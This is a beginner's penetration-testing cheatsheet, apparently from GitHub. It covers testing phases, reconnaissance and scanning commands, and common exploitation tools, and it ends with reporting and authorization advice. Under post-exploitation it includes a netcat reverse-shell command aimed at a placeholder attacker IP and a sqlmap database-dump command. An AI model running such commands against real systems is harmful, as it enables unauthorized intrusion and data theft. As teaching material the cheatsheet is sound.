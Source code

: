 # 🔍 Penetration Testing Basics Comprehensive Cheatsheet

## 🔹 Introduction
Penetration Testing (**Pentesting**) is the practice of **simulating cyberattacks** to identify security vulnerabilities in networks, applications, and systems.

---

## 🔹 Phases of Penetration Testing
| Phase              | Description |
|-------------------|-------------|
| **1. Planning & Reconnaissance** | Gather information about the target (OS, IPs, Domains). |
| **2. Scanning & Enumeration** | Identify open ports, services, and vulnerabilities. |
| **3. Exploitation** | Attempt to exploit vulnerabilities to gain access. |
| **4. Post-Exploitation** | Maintain access and extract valuable information. |
| **5. Reporting & Remediation** | Document findings and suggest mitigations. |

---

## 🔹 Information Gathering (Reconnaissance)
### ✅ Passive Reconnaissance (No direct interaction)
```sh
# Whois lookup
dig example.com
whois example.com

# Search for subdomains
subfinder -d example.com
```

### ✅ Active Reconnaissance (Direct interaction)
```sh
# Find open ports
nmap -A -T4 example.com

# Banner grabbing
nc -v example.com 80
```

---

## 🔹 Scanning & Enumeration
### ✅ Identify Network Services
```sh
# Scan for open ports
nmap -sV -p- example.com

# Enumerate HTTP directories
gobuster dir -u http://example.com -w /usr/share/wordlists/dirbuster.txt
```

### ✅ Find Vulnerabilities
```sh
# Scan for vulnerabilities
nmap --script vuln example.com

# Web vulnerability scanning
nikto -h http://example.com
```

---

## 🔹 Exploitation
### ✅ Common Exploitation Tools
```sh
# Exploit a known vulnerability
searchsploit apache

# Use Metasploit Framework
msfconsole
```

---

## 🔹 Post-Exploitation
### ✅ Maintaining Access
```sh
# Create a reverse shell
nc -e /bin/bash attacker_ip 4444
```

### ✅ Data Extraction
```sh
# Dump database credentials
sqlmap -u "http://example.com/login.php" --dbs
```

---

## 🔹 Reporting & Remediation
- **Document all findings, vulnerabilities, and exploits.**
- **Provide risk assessments and mitigation strategies.**
- **Ensure patches and security updates are applied.**
- **Conduct retesting to verify fixes.**

---

## 🔹 Penetration Testing Best Practices
- **Follow an ethical framework** (e.g., **OWASP, PTES, NIST**).
- **Use non-destructive scanning** to avoid disrupting services.
- **Obtain proper authorization before testing**.
- **Keep tests documented for future analysis.**
- **Use multiple tools to cross-verify vulnerabilities.**

---